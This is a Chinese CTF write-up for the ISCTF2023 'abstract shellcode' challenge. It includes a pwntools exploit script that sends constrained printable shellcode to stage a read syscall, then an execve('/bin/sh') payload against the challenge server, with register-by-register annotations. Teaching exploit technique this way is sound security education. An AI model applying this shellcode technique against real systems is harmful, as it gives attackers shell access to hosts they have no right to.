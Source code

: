 ```yaml
---
title: isctf2023 - abstract shellcode
date: 2023/12/2 20:00:00
updated: 2024/7/25 12:34:56
tags:
    - shellcode
excerpt: 通过分析64位程序的shellcode，利用read和execve实现远程shell的获取。
---
```


确实挺抽象

## 文件分析

NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

开始时读入一个ye/no，就可以开始输入shellcode了，一开始以为有16字节的限制，
还把字符范围限制在了`'O'~'_'`之间，但是实际动调时发现还有1个任意字符的机会

要想执行system，这么一些字节肯定不够，那么可以参照newstarctf里的shellcode_revenge，
先执行read，再执行，那么这最后的一个字节可以做什么呢，发现`'\xc3'`可以实现跳转，
这时候才意识过来，之前给的两个字符，是用来放syscall(`'\x0f\x05'`)的，
那么只要构造一个read系统调用，再读入execve的shellcode并执行就可以拿到shell

下文有shellcode的详细解释

## 踩过的坑

read的第三个参数`count`有最大值`SSIZE_MAX(0x7ffff000 on Linux)`，
超过这个值是依赖于实现的，当我随便找了一个超大数字时，我用的Arch Linux可以成功read，
Ubuntu就不行，害得我一开始连远端就寄，还得开虚拟机试试（毕竟是内核存在差别）

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo):
    global sh
    if lo:
        sh = process('abstractshellcode')
    else:
        sh = remote('43.249.195.138', 21851)
    if lo & 0b10:
        gdb.attach(sh, gdbscript='b *$rebase(0x14aa)')

    # payload 1, place syscall on stack
    sh.send(b'\x0f\x05')

    # payload 2, control registers and return to syscall
    sh.send(b'P^WXOSZYY[YQYQYS\xc3')

    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)

    # payload 3, execute /bin/sh
    sh.sendline(b'0'*(0x52 - 0x20) + shc)

    sh.interactive()
```

以下是对第二条payload的解释

```as
push rax ; P
pop  rsi ; ^ 读取到当前字符串开始处
push rdi ; W
pop  rax ; X 复制0给rax
push r11 ; OS (O: REX:WRXB -> 修饰rbx为r11)
pop  rdx ; Z 复制0x246给count参数
pop  rcx ; Y
pop  rcx ; Y
pop  rbx ; [ 先把syscall字符串所在地址读到rbx中
pop  rcx ; Y padding * 5
push rcx ; Q
pop  rcx ; Y
push rcx ; Q
pop  rcx ; Y
push rbx ; S 还原rbx的地址到rsp上
ret      ; \xc3 ; aka pop rip: 程序跳转到rbx的地址上
```

## 参考文献

[printable shellcode](https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes)

Done.

